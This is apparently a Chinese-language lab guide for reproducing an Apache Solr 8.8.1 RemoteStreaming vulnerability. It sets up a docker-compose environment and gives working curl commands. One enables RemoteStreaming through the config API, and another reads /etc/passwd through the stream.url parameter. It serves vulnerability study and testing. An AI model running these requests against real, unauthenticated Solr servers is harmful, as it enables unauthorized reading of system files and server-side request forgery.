


# Apache Solr RemoteStreaming 文件读取与SSRF漏洞

Apache Solr 是一个开源的搜索服务器。在Apache Solr未开启认证的情况下，攻击者可直接构造特定请求开启特定配置，并最终造成SSRF或任意文件读取。

参考链接：

- https://mp.weixin.qq.com/s/3WuWUGO61gM0dBpwqTfenQ

## 漏洞环境

执行如下命令启动solr 8.8.1：

```
docker-compose up -d
```

环境启动后，访问`http://your-ip:8983`即可查看Apache Solr后台。

## 漏洞复现

首先，访问`http://your-ip:8983/solr/admin/cores?indexInfo=false&wt=json`获取数据库名：



发送如下数据包，修改数据库`demo`的配置，开启`RemoteStreaming`：

```
curl -i -s -k -X $'POST' \
    -H $'Content-Type: application/json' --data-binary $'{\"set-property\":{\"requestDispatcher.requestParsers.enableRemoteStreaming\":true}}' \
    $'http://your-ip:8983/solr/demo/config'
```


再通过`stream.url`读取任意文件：

```
curl -i -s -k 'http://your-ip:8983/solr/demo/debug/dump?param=ContentStreams&stream.url=file:///etc/passwd'
```


